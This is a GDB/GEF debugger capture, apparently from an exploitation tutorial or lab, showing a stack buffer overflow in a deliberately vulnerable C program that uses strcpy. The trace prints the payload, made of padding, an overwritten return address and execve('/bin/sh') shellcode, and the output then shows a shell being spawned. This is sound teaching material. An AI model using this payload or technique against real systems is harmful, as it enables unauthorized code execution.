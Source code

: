 ```sh
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x5
$ebx   : 0x080ed000  →  <_GLOBAL_OFFSET_TABLE_+0000> add BYTE PTR [eax], al
$ecx   : 0x0
$edx   : 0xffffd222  →  0x41410035 ("5"?)
$esp   : 0xffffce78  →  0x00000001
$ebp   : 0xffffcea0  →  0xffffceb8  →  0x00000001
$esi   : 0xffffd224  →  0x41414141 ("AAAA"?)
$edi   : 0x1
$eip   : 0x080497d8  →  <vuln+0019> push DWORD PTR [ebp+0xc]
$eflags: [zero carry PARITY ADJUST sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffce78│+0x0000: 0x00000001   ← $esp
0xffffce7c│+0x0004: 0x080ed000  →  <_GLOBAL_OFFSET_TABLE_+0000> add BYTE PTR [eax], al
0xffffce80│+0x0008: 0x0805155a  →  <strtol+000a> add ebx, 0x9baa6
0xffffce84│+0x000c: 0x080ed000  →  <_GLOBAL_OFFSET_TABLE_+0000> add BYTE PTR [eax], al
0xffffce88│+0x0010: 0x080507f0  →  <atoi+0020> add esp, 0x18
0xffffce8c│+0x0014: 0xffffd222  →  0x41410035 ("5"?)
0xffffce90│+0x0018: 0x00000000
0xffffce94│+0x001c: 0x0000000a ("\n"?)
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80497c6 <vuln+0007>      call   0x8049650 <__x86.get_pc_thunk.bx>
    0x80497cb <vuln+000c>      add    ebx, 0xa3835
    0x80497d1 <vuln+0012>      mov    DWORD PTR [ebp-0x8], 0x0
 →  0x80497d8 <vuln+0019>      push   DWORD PTR [ebp+0xc]
    0x80497db <vuln+001c>      lea    eax, [ebp-0x28]
    0x80497de <vuln+001f>      push   eax
    0x80497df <vuln+0020>      call   0x8049028
    0x80497e4 <vuln+0025>      add    esp, 0x8
    0x80497e7 <vuln+0028>      jmp    0x8049806 <vuln+71>
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── source:vulnerable.c+17 ────
     12
     13  void vuln(int n, char * str){
     14    int i = 0;
     15    char buf[32];
     16
                        // str=0xffffceac  →  [...]  →  0x41414141, buf=0xffffce78  →  0x00000001
●→   17    strcpy(buf,str);
     18
     19    while( i < n ){
     20      printf("%d %s\n",i++, buf);
     21    }
     22
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vulnerable", stopped 0x80497d8 in vuln (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x80497d8 → vuln(n=0x5, str=0xffffd224 'A' <repeats 44 times>, "\254\316\377\377AAAA\353\027^1\300PV1Ұ\v\211\363\211\341̀1\300\260\001\061\333̀\350\344\377\377\377/bin/sh")
[#1] 0x8049846 → main(argc=0x3, argv=0xffffcff4)
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  c
Continuing.
process 4235 is executing new program: /usr/bin/dash
Error in re-setting breakpoint 1: Function "vuln" not defined.
```